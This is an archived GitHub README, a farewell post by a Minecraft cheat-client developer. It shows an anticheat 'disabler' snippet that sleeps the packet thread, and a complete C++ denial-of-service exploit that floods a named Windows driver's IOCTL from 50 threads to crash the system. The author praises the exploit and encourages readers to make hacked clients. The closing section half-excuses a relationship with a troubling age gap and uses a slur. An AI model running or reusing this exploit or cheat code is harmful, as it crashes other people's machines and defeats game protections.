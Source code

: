 # Everything There Was
As a short disclaimer, I'll talk to people that I actually like. I counted a lot of people as "friends," but if you don't see me adding you on a new alias on Discord, then you were just the average "friend" or I don't trust you enough. Explanations for the incident are at the bottom of this repository, but for now, I want to share with you guys the projects that I sincerely loved the most w/ code snippets.

## SRT
<br>
SRT, what was going to be a community flag-ship multi-server cheat, is now dead. I will obviously work on it, but never will you see a client I develop ever reach the internet again. As much as I say I hated everything I made, truth is, I loved all of it. That god forsaken community just makes me want to hate it, which was the answer I gave to most people. I want to give you, the Minecraft client-development community, some tips as to how things worked. Reminder that I don't know how to format text on GitHub, so bare with me here:

```cpp
// AntiGamingChair Ascension check disabler
case AGC_ASCENSION: {
                if (e.getPacket() instanceof C00PacketKeepAlive) {
                    try {
                        Thread.sleep(5000L);
                    } catch (Exception ex) {
                        ex.printStackTrace();
                    }
                }
                break;
            }
```

One of the best things I have ever added to SRT was the disabler above, as funny as-is, this does work. In the times when the first client I ever made, SkyFall, was in development, I was genuinely more eager to learn more than anyone else. The way I went about it was looking at client source codes, and Dort's Meme Client (the good old days) was what I took a glance at. For the Ghostly disabler, I noticed that he used Thread.sleep to sleep the entire packet thread (FYI he does not do this anymore). Ever since I saw that, I kept it in the back of my mind for the literal years to come. In late 2021-ish, I decide to try and make some form of a MinemenClub movement disabler, and I remembered his code for the Ghostly disabler, to eventually evolve into the most simple anticheat disabler to date, with the exclusion of simply cancelling transactions and keep alives. To explain what it actually does, it sleeps the netty thread for five seconds each time the client sends a C00 (which is every second). With this method, you essentially delay the sending and receiving of ALL packets for the time specified in Thread.sleep. The lesson to be learned from this, is to not be afraid of failure, to not be afraid of what others think, to not be afraid of applying what you learned. I may not have applied this particular lesson, but it will only benefit you. Some of you may be glad that it is over, some of you will be disappointed that it is over. Despite the entirety of the Dortware/Corrosion client community wanting to murder me after an incident, I do highly recommend purchasing their client; it is the best multi-server client that will ever actually release.

## Exploit Development
Some of the other projects that I absolutely loved the most were the Windows kernel exploitation ones. Never have I ever had as much fun as I did doing these. The fact that I am able to completely bug check Windows itself and blame a targeted driver was one of the coolest things to me, and still is to some extent today. It was a huge learning curve, as I jumped from barely any knowledge to going straight into kernel-mode exploit development, but hell I do not regret any of it. An example of the most recent denial-of-service exploit is provided below:

```cpp
#pragma warning(disable : 6273)

#include <Windows.h>
#include <stdio.h>

#define TARGET_DEVICE "\\\\.\\BS_HWMIO"
#define TARGET_IOCTL 0x226050

int main(int argc, char** argv);
DWORD WINAPI ioctl_thread(LPVOID lpParam);

DWORD WINAPI ioctl_thread(LPVOID id)
{
	HANDLE driver_handle = CreateFileA(TARGET_DEVICE, GENERIC_READ | GENERIC_WRITE, 0, 0, OPEN_EXISTING, 0, 0);
	if (driver_handle == (HANDLE)-1)
	{
		printf("\n[-] Unable to obtain a handle to the \"%s\" driver. Handle Value: 0x%p (%d), Error: 0x%x (%d)", TARGET_DEVICE, driver_handle, driver_handle, TARGET_IOCTL, TARGET_IOCTL);
		return 1;
	}

	printf("\n[*] Thread ID %d launched successfully.", (int)id);

	while (1)
	{
		DeviceIoControl(driver_handle, TARGET_IOCTL, 0, 0, 0, 0, 0, 0);
	}

	return 0;
}

int main(int argc, char** argv)
{
	HANDLE driver_handle = CreateFileA(TARGET_DEVICE, GENERIC_READ | GENERIC_WRITE, 0, 0, OPEN_EXISTING, 0, 0);
	char unused = 0;

	printf("[!] Exploit written by uncodable.\n[!] Target Device Driver Symbolic Link: %s\n[!] Target IO Control Code: 0x%x (%d)\n[!] Beginning denial-of-service exploit...", TARGET_DEVICE, TARGET_IOCTL, TARGET_IOCTL);

	if (driver_handle == (HANDLE)-1)
	{
		printf("\n[-] Unable to obtain a handle to the \"%s\" driver. Handle Value: 0x%p (%d), Error: 0x%x (%d)", TARGET_DEVICE, driver_handle, driver_handle, TARGET_IOCTL, TARGET_IOCTL);
		unused = getchar();
		return 1;
	}
	printf("\n[+] Obtained a handle to the \"%s\" driver. Handle Value: 0x%p (%d)\n[!] Spinning up threads, ready to race!", TARGET_DEVICE, driver_handle, driver_handle);
	
	CloseHandle(driver_handle);

	for (int i = 0; i < 50; i++)
	{
		CreateThread(NULL, 0, ioctl_thread, i, 0, NULL);
	}

	printf("\n[!] It's racing time!");
	unused = getchar();

	return 0;
}
```

... mother of god, is probably what you're thinking. You may be thinking that, but I am looking at what I would have considered an art form. The ability to think outside of the box and actually turn it into something like this always fascinated me, as it always came off as little to no one else could (with that obviously being false). What fascinates me even more is the ability to just take complete control over a program's execution flow, redirecting its flow to execute my own code. This right here, is single-handedly the reason why I LOVE exploit development and exploits in general as much as I do. There are a lot of things that I like to do, the examples being Windows kernel research, exploit development, bug check codes and analyzing crash dumps, debugging (somewhat lmao), writing code, and breaking things in the greatest of ways possible. Putting it all together, gives me the ability to make these. These are all outcomes of pure motivation. With that being said, the lesson to be learned from this is to pursue what you've dreamed to be. If you wanted to make a hacked client, you now have the motivation; all there is left is to put in the work. Trust me, all of you guys will make it there. As a simple, friendly reminder, this was not the only kernel exploitation propject that I ever had. There are way more that I've done throughout my time.

Now, for the very last thing that I will cover, and I do not dare add its own specific title bar for, the actual incident that arised. Just because I am addressing this, does not mean I'm coming back to the community; I want to do it because this was the first thing in mind, besides nuking every account I ever owned. Avri, someone that I used to talk to, is someone that I was actually talking to, because I genuinely felt relaxed talking to her. Eventually, the two of us actually began trusting each other enough to literally share info (which I am not leaking), to solidfy trust even further. I will not be the one to get into the details of the things that I said, but I know what I said. Am I necessarily proud of what I said? You're fucking hilarious if you say "yeah," but understanding the target audience for this explanation, it does not bring an expression of surprise. And to be clear, yeah I aware of the age gap, but I am not even sure if I was lied to anymore. The only two standing, valid reasons why I even continued anyway was because of this thought here: "What age difference sounds better? 20 to 30 or 60 to 70?" I would imagine you picked the latter choice. Now, what if someone were to have carried out a relationship quietly for years to come, then finally made it clear when everything is finally in their acceptable places? People would be surprised, but they would not care. It is only when the information is leaked at its earliest stages, and me consisting of having consistent shit-ass luck, things like this do not surprise me anymore. To not get too off-topic, the other reason is the fact that she was not an asshole at first. I think you (the reader) knew me well enough to know how much I hate assholes, so this was astounding to me as-is. Unfortunately, though, the cliche lesson I learned in English class years ago did not click into memory, the classic that everyone knows: "Don't judge a book by its cover." With all of that now detailed, I would rather stray away from sounding like those generic apology videos scattered about, so I will leave you with this: I am sorry that I am lonely, and decided to go out of my way to try and fix it, like I've wanted to do for the majority of my life.

If you need code snippets of SRT, as now I am genuinely willing to provide some (not all), you may ask Cystemz to forward your message to me. I will be telling him to filter out some retarded messages, so I only get the ones that matter to me the most. I'm sorry, but my time in the community is over, while projects like SRT and Rainstorm will thrive forever after. Alternatively, you may now send a friend request to a specific Discord account and I will accept if I feel like doing so. Discord account: try me#0366 (this is not my new alias).

There is one more message I want to leave for you, and is that I will be privating this repository as well later mid-day tomorrow. I do not want to see repositories on my account anymore, so you can download this at your will and expense. What would I do anyway?

<br><br><br>

<div align="center">
	<h3>Information provided by archive.org.</h3>
	Thanks so much to the guy (or crawler) that archived it!

	<img src="https://c.tenor.com/T2lMzW9WdicAAAAC/amogli-edp445.gif" width="50%">
</div>
